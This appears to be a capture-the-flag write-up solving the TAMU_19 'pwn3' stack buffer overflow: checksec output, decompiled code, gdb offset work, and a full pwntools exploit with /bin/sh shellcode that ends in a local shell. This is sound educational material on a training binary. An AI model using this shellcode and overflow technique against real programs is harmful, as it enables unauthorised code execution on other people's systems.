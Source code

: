 ### Binary Exploitation

### Source: TAMU_19

### Basic File Checks

```
┌──(venv)─(mark㉿haxor)-[~/…/Pentest/BOF/03-begineer_bof/pwn3]
└─$ file pwn3                                                                                                                                   
pwn3: ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=6ea573b4a0896b428db719747b139e6458d440a0, not stripped
                                                                                                                                                                                                                   
┌──(venv)─(mark㉿haxor)-[~/…/Pentest/BOF/03-begineer_bof/pwn3]
└─$ checksec pwn3 
[!] Could not populate PLT: invalid syntax (unicorn.py, line 110)
[*] '/home/mark/Documents/Pentest/BOF/03-begineer_bof/pwn3/pwn3'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

Cool we see that its a x86 binay. And the protections in it is just only PIE 

We see that there's no Stack Canary & NX is disabled

So we can inject shellcode to the stack and make it execute

I'll run the binary to know what it does

```
┌──(venv)─(mark㉿haxor)-[~/…/Pentest/BOF/03-begineer_bof/pwn3]
└─$ ./pwn3
Take this, you might need it on your journey 0xffd58f7e!
gosh
```

It prints out an address which looks like its gotten from the stack and exists after we give it input

I'll now decompile it using ghidra 

Here's the main function

```

/* WARNING: Function: __x86.get_pc_thunk.ax replaced with injection: get_pc_thunk_ax */

undefined4 main(void)

{
  undefined *puVar1;
  
  puVar1 = &stack0x00000004;
  setvbuf(stdout,(char *)0x2,0,0);
  echo(puVar1);
  return 0;
}
```

It justs calls the echo() function

Here's the decompiled code

```

/* WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx */

void echo(void)

{
  char local_12e [294];
  
  printf("Take this, you might need it on your journey %p!\n",local_12e);
  gets(local_12e);
  return;
}
```

So basically here's what's happening

```
1. It prints out an address in the stack
2. It use get as stdin which is stored in a buffer which can only hold up to 294bytes
```

With this, we can cause buffer overflow as using get function is vulnerable and also when injecting shellcode on the stack the address i'll use is the one printed out when the program starts

Now i'll get the offset from where our input is stored and to the rip

Using gdb i'll set a breakpoint on the leave call in echo

```
┌──(venv)─(mark㉿haxor)-[~/…/Pentest/BOF/03-begineer_bof/pwn3]
└─$ gdb -q pwn3
GEF for linux ready, type `gef' to start, `gef config' to configure
90 commands loaded and 5 functions added for GDB 12.1 in 0.01ms using Python engine 3.11
Reading symbols from pwn3...
(No debugging symbols found in pwn3)
gef➤  disass echo
Dump of assembler code for function echo:
   0x0000059d <+0>:     push   ebp
   0x0000059e <+1>:     mov    ebp,esp
   0x000005a0 <+3>:     push   ebx
   0x000005a1 <+4>:     sub    esp,0x134
   0x000005a7 <+10>:    call   0x4a0 <__x86.get_pc_thunk.bx>
   0x000005ac <+15>:    add    ebx,0x1a20
   0x000005b2 <+21>:    sub    esp,0x8
   0x000005b5 <+24>:    lea    eax,[ebp-0x12a]
   0x000005bb <+30>:    push   eax
   0x000005bc <+31>:    lea    eax,[ebx-0x191c]
   0x000005c2 <+37>:    push   eax
   0x000005c3 <+38>:    call   0x410 <printf@plt>
   0x000005c8 <+43>:    add    esp,0x10
   0x000005cb <+46>:    sub    esp,0xc
   0x000005ce <+49>:    lea    eax,[ebp-0x12a]
   0x000005d4 <+55>:    push   eax
   0x000005d5 <+56>:    call   0x420 <gets@plt>
   0x000005da <+61>:    add    esp,0x10
   0x000005dd <+64>:    nop
   0x000005de <+65>:    mov    ebx,DWORD PTR [ebp-0x4]
   0x000005e1 <+68>:    leave  
   0x000005e2 <+69>:    ret    
End of assembler dump.
gef➤  b *echo+68
Breakpoint 1 at 0x620
gef➤  
```

Now i'll run it and give the input as `1234567890`

```
gef➤  r
Starting program: /home/mark/Documents/Pentest/BOF/03-begineer_bof/pwn3/pwn3 
[*] Failed to find objfile or not a valid file format: [Errno 2] No such file or directory: 'system-supplied DSO at 0xf7fc7000'
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Take this, you might need it on your journey 0xffffcebe!
1234567890

Program received signal SIGILL, Illegal instruction.
0x5655561f in main ()


[ Legend: Modified register | Code | Heap | Stack | String ]
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0x0       
$ebx   : 0x56556fcc  →  <_GLOBAL_OFFSET_TABLE_+0> aam 0x1e
$ecx   : 0xf7e1e9c4  →  0x00000000
$edx   : 0x1       
$esp   : 0xffffcff0  →  0xffffd010  →  0x00000001
$ebp   : 0xffffcff8  →  0x00000000
$esi   : 0x56555630  →  <__libc_csu_init+0> push ebp
$edi   : 0xf7ffcb80  →  0x00000000
$eip   : 0x5655561f  →  <main+60> lea esp, [ebp-0x8]
$eflags: [zero carry parity adjust SIGN trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63 
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffcff0│+0x0000: 0xffffd010  →  0x00000001    ← $esp
0xffffcff4│+0x0004: 0xf7e1cff4  →  0x0021cd8c
0xffffcff8│+0x0008: 0x00000000   ← $ebp
0xffffcffc│+0x000c: 0xf7c23295  →   add esp, 0x10
0xffffd000│+0x0010: 0x00000000
0xffffd004│+0x0014: 0x000070 ("p"?)
0xffffd008│+0x0018: 0xf7ffcff4  →  0x00033f14
0xffffd00c│+0x001c: 0xf7c23295  →   add esp, 0x10
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
   0x56555612 <main+47>        add    esp, 0x10
   0x56555615 <main+50>        call   0x5655559d <echo>
   0x5655561a <main+55>        mov    eax, 0x0
 → 0x5655561f <main+60>        lea    esp, [ebp-0x8]
   0x56555622 <main+63>        pop    ecx
   0x56555623 <main+64>        pop    ebx
   0x56555624 <main+65>        pop    ebp
   0x56555625 <main+66>        lea    esp, [ecx-0x4]
   0x56555628 <main+69>        ret    
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "pwn3", stopped 0x5655561f in main (), reason: SIGILL
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x5655561f → main()
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤
```

I'll search for where the input is stored on the stack and the current rip address

```
gef➤  search-pattern 1234567890
[+] Searching '1234567890' in memory
[+] In '[heap]'(0x56558000-0x5657a000), permission=rw-
  0x565581a0 - 0x565581ac  →   "1234567890\n" 
[+] In '[stack]'(0xfffdd000-0xffffe000), permission=rwx
  0xffffcebe - 0xffffcec8  →   "1234567890" 
gef➤  i f
Stack level 0, frame at 0xffffcff0:
 eip = 0x565555e1 in echo; saved eip = 0x5655561a
 called by frame at 0xffffd010
 Arglist at 0xffffcfe8, args: 
 Locals at 0xffffcfe8, Previous frame's sp is 0xffffcff0
 Saved registers:
  ebx at 0xffffcfe4, ebp at 0xffffcfe8, eip at 0xffffcfec
gef➤ 
```

So doing the calculation `(0xffffcfec - 0xffffcebe = 0x12e)` we get the offset as `0x12e`

Now i'll write the exploit since we have everything needed

```
from pwn import *
io = process('./pwn3')

print(io.recvuntil('journey'))
leak = io.recvline()
addr = leak.strip('!\n')
stack_addr = int(addr, 16)

payload = ""
payload += "\x6a\x31\x58\x99\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80"
payload += b"A"*(0x12e - len(payload))
payload += p32(stack_addr)

io.sendline(payload)

io.interactive()
```

On running it boom we get shell xD

```
┌──(venv)─(mark㉿haxor)-[~/…/Pentest/BOF/03-begineer_bof/pwn3]
└─$ python2 exploit.py
[+] Starting local process './pwn3': pid 36740
Take this, you might need it on your journey
[*] Switching to interactive mode
$ 
$ ls
exploit.py  pwn3
$ id
uid=1000(mark) gid=1000(mark) groups=1000(mark),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),119(wireshark),121(bluetooth),137(scanner),142(kaboxer)
$ whoami
mark
$  
```

And we're done

<br> <br>
[Back To Home](../../index.md)
                  

